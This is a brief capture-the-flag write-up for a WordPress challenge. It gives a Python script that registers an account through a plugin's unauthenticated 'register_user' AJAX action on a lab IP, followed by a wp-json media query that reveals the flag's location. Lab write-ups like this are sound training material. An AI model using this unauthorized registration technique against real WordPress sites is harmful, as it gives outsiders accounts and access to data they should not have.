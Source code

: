 ## How to Solve

To solve this challenge, we’ll register a new user via a WordPress AJAX request and then access a specific URL to retrieve the flag.

### Steps to Solve the Challenge

*   **Register a New User**: First, we need to create a user using the AJAX action defined in the WordPress plugin.

    ```python
    import httpx
    import asyncio

    # Define the target URL for the WordPress AJAX request
    url = "http://100.25.255.51:9091/wp-admin/admin-ajax.php"

    # Define the user data
    data = {
        "action": "register_user",   # The action hook defined in your WordPress plugin
        "username": "newuser",       # Replace with the desired username
        "password": "securepassword", # Replace with the desired password
        "email": "newuser@example.com" # Replace with the desired email
    }

    # Send the POST request to register the user
    async def register_user():
        async with httpx.AsyncClient() as client:
            response = await client.post(url, data=data)

        # Print the response (status code, headers, body)
        print(f"Status Code: {response.status_code}")
        print(f"Response Body: {response.text}")

    # Run the async function
    asyncio.run(register_user())


    ```

*   **Check the Flag Path**: After registering the user, navigate to the media endpoint to find the flag path.

    ```shell
    http://100.25.255.51:9091/wp-json/wp/v2/media/
    ```

    This should give you a list of media items, including the flag.
